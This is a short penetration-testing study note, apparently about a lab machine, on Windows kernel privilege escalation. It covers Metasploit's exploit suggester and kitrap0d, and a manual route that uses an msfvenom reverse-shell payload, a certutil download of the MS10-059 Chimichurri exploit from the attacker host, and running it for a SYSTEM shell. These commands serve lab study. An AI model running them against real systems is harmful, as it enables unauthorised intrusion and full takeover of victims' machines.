


# Exploitation Path: Kernel Exploits

### Kernel Exploits Overview

**What is a Kernel?**  

The kernel is:  
- A computer program that controls everything in the system  
- Facilitates interactions between hardware and software components  
- A translator  

**Windows Kernel**  

**Resources:**

Windows Kernel Exploits - https://github.com/SecWiki/windows-kernel-exploits

### Escalation with Metasploit

After running `post/multi/recon/local_exploit_suggester`, check the exploits suggested one by one

Try the older MS exploits first

Devel is vulnerable to:

- exploit/windows/local/ms10_015_kitrap0d
- Test others too!

**Resources:**

Kitrap0d Information - https://seclists.org/fulldisclosure/2010/Jan/341

### Manual Kernel Exploitation

Generate a generic Windows reverse shell with msfvenom:

`msfvenom -p windows/shell_reverse_tcp LHOST=10.0.0.2 LPORT=4444 -f aspx -o nc_shell.aspx`

Upload it to the FTP server, navigate to http://10.10.10.5/nc_shell.aspx with a netcat listener running to 
get RCE

Use certutil to download the MS10-059 Chimichurri.exe exploit from the attacking machine

`C:\Windows\Temp> certutil -urlcache -f http://10.0.0.2/Chimichurri.exe ms.exe`

Start a netcat listener and execute the exe to get a system shell

`C:\Windows\Temp> ms.exe 10.0.0.2 5555`

**Resources:**

MS10-059 Exploit - https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059
